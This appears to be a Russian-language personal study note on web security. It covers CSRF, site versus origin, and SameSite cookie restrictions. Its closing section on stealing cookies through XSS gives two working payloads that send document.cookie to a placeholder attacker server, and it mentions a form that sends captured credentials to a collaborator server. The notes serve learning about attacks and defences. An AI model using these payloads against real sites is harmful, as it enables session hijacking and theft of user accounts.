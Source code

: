 # Вступление

CSRF атака возможна, если допущены ошибки в механизмах безопасности хранения cookie, генерации CSRF токена, защите через Referer.

![[Pasted image 20250113212910.png]]

---

## Разница Site и Origin

![[Pasted image 20250114182435.png]]
![[Pasted image 20250114182521.png]]

---
## Какими бывают Cookie - SameSite

>**SameSite** - механизм безопасности браузера, который определяет, когда cookie веб-сайта включаются в запросы, исходящие от других веб-сайтов. Ограничения cookie SameSite обеспечивают частичную защиту от различных межсайтовых атак, включая CSRF, межсайтовые утечки и некоторые эксплойты CORS.

|                           |                                |                       |                            |
| ------------------------- | ------------------------------ | --------------------- | -------------------------- |
| **Request from**          | **Request to**                 | **Same-site?**        | **Same-origin?**           |
| `https://example.com`     | `https://example.com`          | Yes                   | Yes                        |
| `https://app.example.com` | `https://intranet.example.com` | Yes                   | No: mismatched domain name |
| `https://example.com`     | `https://example.com:8080`     | Yes                   | No: mismatched port        |
| `https://example.com`     | `https://example.co.uk`        | No: mismatched eTLD   | No: mismatched domain name |
| `https://example.com`     | `http://example.com`           | No: mismatched scheme | No: mismatched scheme      |
![[SameSite ограничения.png]]
![[SameSite strict.png]]


---

# Exploiting cross-site scripting to steal cookies

[PayloadsAllTheThings - XSS - data-grabber-for-xs](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss)

Пример в CORS: 
```javascript
<script>
  fetch('https://{site.com}', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```
или
```html
<img src=x onerror=this.src="http://<my_server>:<port>/"+btoa(document.cookie)>
```
#### Exploiting cross-site scripting to capture passwords
Здесь представлена форма, которая ожидает ввода логина и пароля, и сказу отправляет из в коллаборатор.